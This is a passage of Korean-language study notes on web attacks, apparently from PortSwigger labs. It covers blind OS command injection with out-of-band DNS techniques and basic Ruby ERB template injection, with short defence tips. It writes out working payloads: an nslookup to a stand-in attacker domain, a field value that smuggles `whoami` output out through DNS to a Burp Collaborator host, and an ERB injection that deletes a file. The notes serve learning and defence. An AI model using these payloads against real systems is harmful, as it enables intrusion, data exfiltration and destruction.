 요청을 보내서, 결과를 볼 수 있다. 
 

**Exploiting blind OS command injection using out-of-band (OAST) techniques** 

```
& nslookup kgji2ohoyw.web-attacker.com & 
```

OAST로 외부 URL로 커맨드를 보낼 수도 있다. 
 

**예제**

```
email=x||nslookup+`whoami`.urp5ql7cnjowea8l6hr0uaarciia6z.burpcollaborator.net|| 
```

pull하면, whoami커맨드에 대한 결과를 **DNS query**에서 확인가능 

 

**Ways of injecting OS commands** 

운영체제마다 다름. 

&, &&, || 같은 커맨드 분리기도 다름. 

\`command`, $(command) 커맨드 삽입도 다름. 



## 4.2. 방어법

어플리케이션 레이어 수준에서 커맨드를 쓰지 않는 것이 최고의 예방법 

써야한다면 input validation을 빡시게 
 
 

 # 5. SSTi

**# Basic server-side template injection** 

사이트에 있는 물건을 누르니, 메세지가 표시가 된다. 
근데, 그 메세지가 URL에 params로 똑같이 있다. 즉 URL을 읽어서 웹상에 띄우는 것이다. 이걸로 URL을 통해 injection을 할 수 있다. 

해당 사이트가 Ruby ERB 템플릿엔진으로 빌드가 되어있는 것을 알았으면(wappalyzer같은걸 써서) 해당 언어의 다큐먼트를 읽고, 코드를 inject한다. 

`?message=<%=999%>`를 하면 999가 표시된다. 

```
?message=<%25+system("rm+/home/carlos/morale.txt")+%25>
```

위의 스크립트를 붙여 보내면, 해당 코드가 실행되면서 디렉토리를 삭제할 수 있다. 

<img src='../images/theory/st-1.png'>
